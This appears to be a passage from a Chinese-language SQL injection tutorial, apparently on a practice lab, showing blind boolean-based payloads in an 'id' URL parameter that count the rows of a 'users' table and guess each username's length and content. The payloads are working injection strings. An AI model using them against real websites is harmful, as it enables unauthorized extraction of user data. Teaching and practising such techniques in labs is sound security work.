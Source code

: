 ```php
?id=1' and (select count(*) from users)=13 --+
```

![](assets/1707473863-61438d444a4f1f0275f4d358b0e82d56.png)  
之后再来判断每条数据的长度

```php
第一个数据长度为4
?id=1' and length((select username from users limit 0,1))=4  --+

第二个数据长度为8
?id=1' and length((select username from users limit 1,1))=8  --+

第三个数据长度为5
?id=1' and length((select username from users limit 2,1))=5  --+

...

第十三个数据长度为6
?id=1' and length((select username from users limit 12,1))=6  --+
```

再用同样的方法猜解数据的内容，这里以第一个数据为例，数据内容为 dumb  